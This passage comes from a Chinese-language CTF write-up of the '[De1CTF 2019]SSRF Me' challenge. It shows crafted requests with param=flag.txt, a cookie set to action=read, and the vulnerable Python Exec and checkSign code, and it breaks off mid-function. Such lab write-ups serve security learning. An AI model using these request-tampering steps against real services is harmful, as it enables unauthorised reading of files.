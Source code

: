 所以我们可以直接用param=flag.txt打开./flag.txt读取flag

#### 尝试

先试一下

``` http
http://3f668dc5-4224-455d-9406-172977048bf6.node3.buuoj.cn/geneSign?param=flag.txt
```

![](D:\CTF\ctf\web\buuctf\[De1CTF 2019]SSRF Me\图片\6.png)

设置cookie

<img src="D:\CTF\ctf\web\buuctf\[De1CTF 2019]SSRF Me\图片\9.png" style="zoom: 67%;" />

![](D:\CTF\ctf\web\buuctf\[De1CTF 2019]SSRF Me\图片\8.png)

访问

``` http
http://3f668dc5-4224-455d-9406-172977048bf6.node3.buuoj.cn/De1ta?param=flag.txt
```

这个时候flag肯定已经保存到`"./%s/result.txt" % self.sandbox` 这个文件里了

![](D:\CTF\ctf\web\buuctf\[De1CTF 2019]SSRF Me\图片\7.png)

我想通过action="read"读，所以设置cookie中的action=read

访问

``` http
http://3f668dc5-4224-455d-9406-172977048bf6.node3.buuoj.cn/De1ta?param=flag.txt
```

![](D:\CTF\ctf\web\buuctf\[De1CTF 2019]SSRF Me\图片\10.png)

诶，怎么有点不对，继续看代码

``` python
def Exec(self): 
    result = {} 
    result['code'] = 500 
    if (self.checkSign()): 
        if "scan" in self.action: 
            tmpfile = open("./%s/result.txt" % self.sandbox, 'w') 
            resp = scan(self.param) 
            if (resp == "Connection Timeout"): 
                result['data'] = resp 
            else: 
                print resp 
                tmpfile.write(resp) 
                tmpfile.close() 
            result['code'] = 200 
        if "read" in self.action: 
            f = open("./%s/result.txt" % self.sandbox, 'r') 
            result['code'] = 200 
            result['data'] = f.read() 
        if result['code'] == 500: 
            result['data'] = "Action Error" 
    else: 
        result['code'] = 500 
        result['msg'] = "Sign Error" 
    return result 
def checkSign(self): 
    if (getSign(self.action, self.param) == self.sign): 
        return True 
    else: 
```